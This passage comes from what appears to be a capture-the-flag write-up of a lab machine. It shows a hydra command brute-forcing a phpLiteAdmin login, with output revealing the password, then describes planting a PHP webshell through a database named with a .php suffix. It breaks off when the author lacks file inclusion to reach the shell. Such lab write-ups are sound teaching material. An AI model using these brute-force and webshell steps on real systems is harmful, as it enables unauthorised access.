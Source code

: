 It finds the password very quickly:

```

root@kali# hydra 10.10.10.43 -l 0xdf -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-11 06:03:28
[DATA] max 16 tasks per 1 server, overall 16 tasks, 397 login tries (l:1/p:397), ~25 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
[443][http-post-form] host: 10.10.10.43   login: 0xdf   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-11 06:03:36

```

### Enumerate phpLiteAdmin

With the password, I can login:

![image-20200411060847374](https://0xdfimages.gitlab.io/img/image-20200411060847374.png)

There is only one database, `test`, and it has no tables.

### PHP Injection

The exploit `24044.txt` from `searchsploit` describes how to exploit phpLiteAdmin to get RCE using the following steps:
1. Create a new database ending with `.php`:

   ![image-20200411061223961](https://0xdfimages.gitlab.io/img/image-20200411061223961.png)

</picture>
1. I’ll click on the new db to switch to it, and create a table with 1 text field with a default value of a basic PHP webshell:

   ![image-20200411061614183](https://0xdfimages.gitlab.io/img/image-20200411061614183.png)

</picture>

Note it’s important to use `"` in the PHP, as `'` is being used by the database to define the entire string:

![image-20200411061634696](https://0xdfimages.gitlab.io/img/image-20200411061634696.png)
1. View the page.

Unfortunately, I’m stuck here. I can see the path to the new `.php` webshell in `/var/tmp`:

![image-20200411061953672](https://0xdfimages.gitlab.io/img/image-20200411061953672.png)

But I lack the LFI necessary to access that page in a browser.
